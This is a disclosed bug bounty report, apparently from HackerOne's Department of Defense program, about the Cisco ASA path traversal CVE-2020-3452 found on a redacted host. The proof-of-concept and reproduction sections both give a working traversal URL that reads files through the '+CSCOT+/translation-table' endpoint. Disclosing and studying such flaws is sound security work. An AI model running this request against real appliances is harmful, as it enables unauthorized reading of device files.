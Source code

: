 # Path Traversal - [ CVE-2020-3452 ]

## Report Details
- **Report ID**: 1137321
- **URL**: https://hackerone.com/reports/1137321
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-03-26T14:34:07.308Z
- **Disclosed**: 2021-05-11T20:16:50.101Z

## Reporter
- **Username**: kmxx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello,

I would like to report Path Traversal issue [ CVE-2020-3452 ] was found on https://█████/.

POC: https://█████████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

## Impact

https://nvd.nist.gov/vuln/detail/CVE-2020-3452

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3452

## Steps to Reproduce
Follow this URL to see the bug exists --> https://████/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
